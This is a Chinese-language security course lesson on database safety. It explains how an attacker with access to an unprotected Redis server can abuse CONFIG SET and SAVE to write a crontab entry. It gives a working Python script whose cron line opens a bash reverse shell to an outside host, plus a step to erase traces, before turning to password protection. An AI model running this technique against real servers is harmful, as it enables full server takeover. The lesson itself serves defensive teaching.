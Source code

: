 你好，我是何为舟。

说到数据库，你肯定会说：“数据库是我最熟悉的工具了。利用它，我能够设计复杂的表结构、写出炫酷的SQL语句、优化高并发场景下的读写性能。”当然，我们的日常工作离不开数据库的使用。而且，数据库中储存的大量机密信息，对于公司和用户都至关重要。

那关于数据库的安全你知道多少呢？你知道数据库是如何进行认证的吗？使用数据库交换数据的过程是安全的吗？假如黑客连入了数据库，又会发生什么呢？

今天，我就以两种比较常见的数据库Redis和MySQL为例，来和你一起探讨数据库的安全。

## Redis安全

我们首先来看Redis。我们都知道，Redis是一个高性能的KV结构的数据库。Redis的设计初衷是在可信的环境中，提供高性能的数据库服务。因此，Redis在设计上没有过多地考虑安全性，甚至可以说它刻意地牺牲了一定的安全性，来获取更高的性能。

那在安全性不高的情况下，黑客连入Redis能做什么呢？最直接的，黑客能够任意修改Redis中的数据。比如，通过一个简单FLUSHALL命令，黑客就能够清空整个Redis的数据了。

复杂一些的，黑客还可以发起权限提升，通过Redis在服务器上执行命令，从而控制整个服务器。但是，Redis本身不提供执行命令的功能，那么黑客是如何让Redis执行命令的呢？我们一起来看一下具体的代码流程。

```
r = redis.Redis(host=10.0.0.1, port=6379, db=0, socket_timeout=10)
payload = '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/1.2.3.4/8080 0>&1\n\n'
path = '/var/spool/cron'
name = 'root'
key = 'payload'
r.set(key, payload)
r.config_set('dir', path)
r.config_set('dbfilename', name)
r.save()
r.delete(key)  # 清除痕迹
r.config_set('dir', '/tmp')
```

针对这个过程，我来详细解释一下，你可以结合代码来看。

- 黑客连入Redis。
- 黑客写入一个任意的Key，对应的Value是想要执行的命令，并按照Crontab的格式进行拼接。代码如下：

```
*/1* * * * /bin/bash -i >& /dev/tcp/1.2.3.4/80800>&1
```

- 黑客调用config\_set方法，就是通过Redis的CONFIG命令，将Redis数据持久化的目录修改成/var/spool/cron。
- 黑客调用save方法，通过Redis的SAVE命令，发起Redis的数据持久化功能。最终，Redis将数据写入到/var/spool/cron中。写入的文件效果如下：



![](https://static001.geekbang.org/resource/image/6e/81/6e78c556b7f2d5d5c4fc0d1d5bd93281.png?wh=1162%2A330)

- Crontab对于无法解析的数据会直接跳过，因此，开头和结尾的乱码不会影响Crontab的执行。最终，Crontab会执行到Value中对应的命令。

这样一来，黑客就“聪明”地利用Redis保存文件的功能，修改了Crontab，然后利用Crontab执行了命令。

那么，我们该如何对Redis进行安全防护呢？这里就需要提到我们前面讲过的“黄金法则”和“最小权限原则”了。

首先，从认证上来说，Redis提供了最简单的密码认证功能。在Redis的配置文件中，只要增加一行requirepass 123456，我们就能够为Redis设置一个密码了。但是，这里有两点需要你注意。

- Redis的性能很高，理论上黑客能够以每秒几十万次的速度来暴力猜测密码。因此，你必须设置一个足够强的密码。我比较推荐随机生成一个32位的“数字加字母”的密码。而且Redis的密码直接保存在配置文件当中，你并不需要记忆它，需要的时候直接查看就好了。
- Redis是为了高性能而设计的。之所以Redis默认不配置密码，就是因为密码会影响性能。按照我之前的测试，加上密码之后，Redis的整体性能会下降20%左右。这也是很多开发和运维，明明知道Redis有安全风险，仍然保持无密码状态的原因。所以，是否给Redis设置密码，还需要你根据实际的情况进行权衡。
